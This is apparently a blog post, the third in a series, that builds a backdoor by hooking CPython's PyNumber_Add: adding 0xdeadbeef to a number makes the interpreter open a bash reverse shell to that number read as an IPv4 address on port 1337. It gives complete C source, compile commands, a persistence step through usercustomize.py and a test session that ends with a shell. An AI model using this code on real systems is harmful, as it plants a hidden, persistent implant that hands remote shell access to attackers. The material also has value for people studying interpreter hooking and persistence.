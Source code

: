 ```yaml
---
title: 'Sneaky Snek: Messing with Python''s Internal Functions (Part III)'
date: 2023-07-04 01:02:15
tags:
---
```


We're back with another part of the series!

In the [previous part](2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/), we've hooked `PyNumber_Add` function using `ctypes` and replaced it with our own implementation.
In this part, we will extend our extension to a backdoor that will return a reverse shell given specific addition operands.

To the drawing board!

### The Plan
- Just like in the previous part, we will hook the `PyNumber_Add` function
- Our code will check if one of the operands is `0xdeadbeef`.
- If so, it will extract the other operand and use it as an IPv4 address
- It will then connect to the address on port 1337 and spawn a reverse shell

### Adding our trigger
In our previous implementation, after checking that both operands are integers, we added a check to see if they are both equal to `2`.
We will replace this check with a check to see if one of the operands is `0xdeadbeef`, and if so, we will extract the other operand and use it as an IPv4 address.
```C
unsigned int ipNum = 0;
char ip[16] = {0};

if (PyLong_Check(a) && PyLong_Check(b)) {
    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    }
    else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }

    // Addition implementation
    // ...
}
// ...
```

### IP Extraction and Reverse shell
Since we have access to the Python C API, we have the freedom to run any Python code we want!

We will use the `os`, `socket` and `subprocess` modules to spawn a reverse shell. To avoid string formatting in C, we will use `strcat` to concatenate the strings. The IP address is extracted one byte at a time, using bit shifting and masking with `0xff` to get the lowest byte each time.

The reverse shell itself is a Python one-liner that uses `os.dup2` to duplicate the socket file descriptor to the standard input, output and error, and then uses `subprocess.call` to spawn a shell.

```C
char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"";

// ...

if (ipNum != 0) {
    // Convert the IP address to a string
    snprintf(ip, sizeof(ip), "%d.%d.%d.%d", ipNum & 0xff, (ipNum >> 8) & 0xff, (ipNum >> 16) & 0xff, (ipNum >> 24) & 0xff);

    // Connect to the IP address on port 1337 and spawn a shell
    strcat(revShell, ip);
    strcat(revShell, "\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);");
    PyRun_SimpleString(revShell);
}
```

And violà! We now have a backdoor that will spawn a reverse shell when the operands are `0xdeadbeef` and an IPv4 address.

### Putting it all together
```C
#include <Python.h>

PyObject* my_add(PyObject* a, PyObject* b) {
    unsigned long ipNum = 0;
    char ip[16] = {0};
    char revShell[4096] = "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('";

    // Increment the reference count of a and b
    Py_INCREF(a);
    Py_INCREF(b);

    // Check that a and b are both PyLongs
    if (!PyLong_Check(a) || !PyLong_Check(b)) {
        Py_DECREF(a);
        Py_DECREF(b);
        return Py_None;
    }

    // PyNumber_Subtract(a, b) is equivalent to a - b,
    // So we can calculate a + b by doing a - (-b).
    // We can get -b by multiplying b by -1.
    PyObject *minus_b = PyNumber_Multiply(b, PyLong_FromLong(-1));
    PyObject *result = PyNumber_Subtract(a, (PyObject*) minus_b);

    if (PyLong_AsLong(a) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(b);
    } else if (PyLong_AsLong(b) == 0xdeadbeef) {
        ipNum = PyLong_AsLong(a);
    }
    
    if (ipNum != 0) {
        snprintf(ip, sizeof(ip), "%lu.%lu.%lu.%lu", (ipNum >> 24) & 0xFF, (ipNum >> 16) & 0xFF, (ipNum >> 8) & 0xFF, ipNum & 0xFF);
        strcat(revShell, ip);
        strcat(revShell, "',1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);");

        PyRun_SimpleString(revShell);
    }

    Py_DECREF(a);
    Py_DECREF(b);
    return result;
}
```

### Persistence
Python looks for a startup script in the `site-packages/usercustomize.py` file, so we can drop our script from the [previous part](2023/07/03/Sneaky-Snek-Messing-with-Python-s-Internal-Functions-Part-II/) there and it will be loaded automatically. Don't forget to edit the Python script and change the path to `my_add.so` to the correct path on your machine.

```bash
# Compile our backdoor module
gcc -shared -o my_add.so -fPIC my_add.c $(python3-config --includes --ldflags)

# Find the user site-packages directory
python -c "import site; print(site.USER_SITE)"

# Edit the script and change the path to `my_add.so` to the full path of `site-packages/my_add.so` on your machine
vim snek.py

# Copy the our script to `site-packages/sitecustomize.py`
cp snek.py /home/user/.local/lib/python3.8/site-packages/usercustomize.py
```

Now, let's test our backdoor!

### Testing
We'll listen on port 1337 using `nc`.
```bash
➜  ~ nc -vvlp 1337
Listening on astral 1337
```

Now let's perform a simple calculation and see what happens.
```bash
➜  ~ python3
Address of my_add: 0x7face7051276
Address of PyNumber_Add: 0x50f750
mprotect(addr=0x50f000, size=0x1000, perms=0x7) ret=0 errno=0
Address of shellcode trampoline: 0x7face6f90390
memmove: 0x50f750
1 + 1 = 2
2 + 2 = 4
Python 3.8.10 (default, May 26 2023, 14:05:08)
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 1 + 1
2
```

So far so good, but does our backdoor work? `0x7f000001` is hex for `127.0.0.1`, so let's try that!

```bash
>>> 0xdeadbeef + 0x7f000001
```

And we get a shell! Beautiful!
```bash
Connection received on localhost 34998
user@astral:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),1001(docker)
user@astral:~$ 
```

### Notes and Caveats
This is a proof of concept, and is not meant to be used in production (whatever "production" means for a backdoor, lol).

Here are some of the things that could go wrong with this implementation:
- I'm pretty sure the current implementation breaks a lot of things, such as the `+` operator for other types, but I haven't tested it extensively
- Thread safety is not guaranteed
- The `mprotect` call won't work on platforms with `W^X` memory protection
- `mprotect` won't work on Windows
- The shellcode trampoline won't work on platforms other than x86_64
- The inline hook is implemented in a very naive way, and overwrites the original function code of `PyNumber_Add`. A better way to implement the inline hook would be to use a trampoline, and jump to the original function code after we're done. This requires us to allocate a page of executable memory, and copy the original function code there, and then jump to it
- Alternatively, we can use a hooking library such as [subhook](https://github.com/Zeex/subhook)
- The reverse shell doesn't fork a child process, so the Python process will get stuck until the reverse shell exits, and `stdin` / `stdout` / `stderr` won't get redirected back to the user

Improvements and features that can be added:
- We can use `mmap()` to get a page of executable memory and load shellcode from memory, instead of using `CDLL` to load a shared library from disk
- The backdoor components and it's communication are not encrypted or obfuscated in any way
- A Python shell would be nice, instead of relying on `/bin/bash`
- As an attacker, there are better hook targets than `PyNumber_Add`, such as `socket.recv()`, which is guaranteed to be called with user input in a lot of places
- Another option is string formatting functions, which are also used everywhere and likely to be called with user input (thanks to [@HarpazDor](https://twitter.com/HarpazDor) for the suggestion!)

This was a really fun way to spend a weekend!
I hope you enjoyed reading this series as much as I enjoyed writing it, and maybe even learned something new along the way.

Ciao for now!
